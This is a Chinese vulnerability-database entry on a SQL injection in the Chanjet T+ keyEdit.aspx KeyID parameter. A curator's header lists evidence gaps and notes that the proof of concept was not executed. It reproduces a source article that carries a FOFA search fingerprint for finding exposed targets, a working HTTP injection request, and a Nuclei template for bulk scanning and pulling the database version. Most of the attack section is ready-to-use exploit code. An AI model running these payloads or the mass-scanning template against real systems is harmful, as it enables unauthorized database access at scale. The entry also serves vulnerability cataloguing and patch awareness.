


# 畅捷通T+ keyEdit KeyID SQL 注入

## 条目说明

- 对象与具体问题：畅捷通T+；keyEdit KeyID SQLi
- 版本、配置及部署条件：13.0/16.0声明；SQL Server转换报错
- 认证与权限前提：示例含SessionId，鉴权未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 前言好生意与实际T+混淆，去新洞时效词
- Nuclei Host反斜杠花括号、reference=https://、Referer空主机有损；匹配ion:u加200无特异性易误报
- 原始MD5报错与模板@@version不同，应给对应响应；缺具体补丁

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Vr-J2LlW5Y9onjNo2OCrxQ)

畅捷通是用友集团的成员企业, 致力于为企业提供高效、方便的解决方案。好生意是畅捷通公司的产品, 能够从不同的维度帮助企业提升效率、降低成本。


<table><thead><tr><th width="45">漏洞介绍</th><th width="474">畅捷通 TPlus keyEdit.aspx SQL 注入漏洞<br></th></tr></thead><tbody><tr><td width="45">漏洞描述</td><td width="454"><p>畅捷通 T + 是⼀款企业管理软件，主要⾯向中⼩企业。它提供了包括财务、采购、销售、库存、⽣产制造、⼈⼒资源等在内的全⾯企业管理解决⽅案。通过畅捷通 T+，企业可以实现对业务流程的数字化管理，提⾼⼯作效率，降低成本，增强企业竞争⼒。</p><p>畅捷通 T+ /tplus/UFAQD/keyEdit.aspx 接⼝处未对⽤⼾的输⼊进⾏过滤和校验，未经⾝份验证的攻击者可以利⽤ SQL 注⼊漏洞获取数据库中的信息。</p></td></tr><tr><td width="45">影响产品</td><td width="454">畅捷通 T+</td></tr><tr><td width="45">修复方案</td><td width="454">请使⽤此产品的⽤⼾尽快打补丁或更新到最新版本：https://www.chanjet.com</td></tr></tbody></table>


用请尽快进行应用系统的检查，确认其中是否存在使用畅捷通 T + 情况。如果确认存在相关应用的使用，需要立即采取行动，因为这些应用极有可能受到漏洞影响。  
影响版本：  
畅捷通 T+ 13.0  
畅捷通 T+ 16.0  

**漏洞指纹**

Fofa 指纹

`app="畅捷通-TPlus"  
`



**漏洞复现 poc**

```http
GET /tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20sys.fn_varbintohexstr(hashbytes(%27MD5%27,%27123456%27)))%20--&preload=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: ASP.NET_SessionId=t5b4ib4lqdfdo5h40mpp5djc
Upgrade-Insecure-Requests: 1
Priority: u=1
Pragma: no-cache
Cache-Control: no-cache

```



 **nuclei 批量验证脚本**

```
id: changjietong_keyEdit_sqli
info:
  name: changjietong_keyEdit_sqli
  author: recjl
  severity: high
  description: description
  reference:
    - https://
  tags: tags
requests:
  - raw:
      - |+
        GET /tplus/UFAQD/keyEdit.aspx?KeyID=1%27%20and%201=(select%20@@version)%20--&preload=1 HTTP/1.1
        Host: \{\{Hostname\}\}
        Cache-Control: max-age=0
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Referer: http:///tplus/
        Accept-Encoding: gzip, deflate, br
        Accept-Language: zh-CN,zh;q=0.9
        Cookie: ASP.NET_SessionId=wla51k11mgrzdaydypk0muzb
        If-None-Match: W/"5b450e7e-666d"
        If-Modified-Since: Tue, 10 Jul 2018 19:52:30 GMT
        Connection: close
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - ion:u
      - type: status
        status:
          - 200

```


获取更多的网络安全热讯或者学习交流可以加入群聊！！

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
